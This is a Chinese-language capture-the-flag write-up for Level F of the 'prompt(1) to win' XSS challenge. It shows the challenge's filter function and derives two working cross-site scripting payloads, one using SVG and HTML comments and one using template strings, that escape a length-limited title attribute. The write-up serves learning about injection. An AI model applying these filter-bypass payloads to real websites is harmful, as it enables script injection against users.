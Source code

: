 ## [[prompt(1) to win](http://prompt.ml)] [[Level F – Length2](http://prompt.ml/15)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3730/)]

------

## 题目

```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

## 解题报告

这题与 【[Level 7 - Length](http://exp-blog.com/2019/03/23/pid-3672/)】 十分相似，区别在于：

- 长度限制从 12 放宽到 15
- `*` 被过滤，导致 JS 注释 `/* */` 不可用


------------

### 解法一：SVG 注释

换言之，要解决这题，就需要**使用另一种方法实现多行注释**。我第一时间想到的就是 HTML 注释 `<!--   -->` 。

但是这题在 HTML 中穿插着 JS 代码，而在默认 HTML 语境下， HTML 注释是没办法在 JS 代码中使用的。

为了解决这个问题，可以借助 `<svg>` 标签强制解析 XML 语法的特点：

在 `<svg>` 标签中若包含 JS 代码，即使使用 HTML 注释 `<!--   -->` 也是可以被成功解析的。

例如：

```html
<svg>
    <!-- xxxx -->
    <script>
        <!-- yyyy -->
        alert(1)
        <!-- zzzz -->
        alert(2)
    </script>
</svg>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/0d6a2a75a2e7b51f80b3b6adee29c7f8.png)


------------

那么这题的答案的呼之欲出了，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><svg><!--    " data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt<!--  " data-comment='{"id":2}'></p>
<p class="comment" title="-->(1)</script>" data-comment='{"id":3}'></p>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/4f8d368c7fa59b6def781ffce7eaf004.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： `"><svg><!--#--><script><!--#-->prompt<!--#-->(1)</script>`

![](http://exp-blog.com/wp-content/uploads/2019/03/be7f2e9ef45152c1eef67e3d2789b7ab.png)


------------

### 解法二：模板字符串

这题其实还有另一种解法，可以使用 [模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings) 解题。

在 JS 中，可以使用 倒引号（或反引号）包围字符串，字符串中再以 `${expression}` 方式入表达式，这样表达式就会被执行，例如：

```javascript
<script>
    `<a="1" b='2'> ${prompt(1)} by exp`
</script>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/5dd76a1ce224f2046397070315a7f58d.png)

回到这题，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><script>`    " data-comment='{"id":0}'></p>
<p class="comment" title="${prompt(1)}   " data-comment='{"id":1}'></p>
<p class="comment" title="`</script>     " data-comment='{"id":2}'></p>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/ac02f695860a194a23b9168ff79700b2.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： 

```html
"><script>`#${prompt(1)}#`</script>
```

> 注：这个 payload 也可用于 【[Level 7 - Length](http://exp-blog.com/2019/03/23/pid-3672/)】 。

![](http://exp-blog.com/wp-content/uploads/2019/03/14fce6739e727fd9ef0b0cbcf3527ec9.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
